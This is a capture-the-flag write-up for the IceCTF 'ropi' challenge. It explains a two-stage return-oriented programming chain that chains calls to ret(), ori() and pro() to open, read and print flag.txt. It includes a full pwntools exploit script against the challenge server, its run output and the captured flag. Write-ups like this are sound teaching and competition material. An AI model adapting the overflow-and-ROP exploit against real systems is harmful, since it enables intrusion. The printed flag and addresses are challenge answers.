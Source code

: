 ### Solved by superkojiman

The name of the binary hints that we need to use ROP. There are three functions that aren't referenced anywhere:

ret(): calls open() on "flag.txt"
ori(): calls read() on the file descriptor returned by open() in ret()
pro(): prints out the flag stored in the buffer filled in by read() in ori()

So the idea then would be to ROP to ret() -> ori() -> pro(). However it's not that simple since the binary only reads in 64 bytes, and EIP is overwritten at offset 44, which doesn't leave a lot of room for chaining those calls together.

The read() that overwrites EIP occurs in ezy(). The solution I came up with was to return to ret(), then return to ezy() so I could do the read() again and overwrite EIP again. The second time, instead of returning to ret(), I returned to ori(). From ori(), I just return directly to pro() to print out the flag.

Here's the exploit:

```
#!/usr/bin/env python

from pwn import *

popret   = p32(0x8048395)
r = remote("ropi.vuln.icec.tf", 6500)

pad = ""
pad += cyclic(44)

# stage 1
buf = ""
buf += p32(0x08048569)          # ret(): calls open("flag.txt", 0)
buf += popret                   # clear off the key after we use it
buf += p32(0xbadbeeef)          # ret() expects this key
buf += p32(0x0804852d)          # return to ezy() to read() more input again

print r.recv()                  # banner
r.send(pad + buf)               # send stage 1

# stage 2
buf = ""
buf += p32(0x080485c4)          # ori(): calls read("flag.txt")
buf += p32(0x0804862c)          # return to pro() which prints out the flag
buf += p32(0xabcdefff)          # ori() expects this key

r.send(pad + buf)

# print out the flag
print r.recvall()
```

And here it is in action:

```
$ ./sploit.py
[+] Opening connection to ropi.vuln.icec.tf on port 6500: Done
Benvenuti al convegno RetOri Pro!
Vuole lasciare un messaggio?

[+] Recieving all data: Done (150B)
[*] Closed connection to ropi.vuln.icec.tf port 6500
[+] aperto
Benvenuti al convegno RetOri Pro!
Vuole lasciare un messaggio?
[+] leggi
[+] stampare
IceCTF{italiano_ha_portato_a_voi_da_google_tradurre}
```
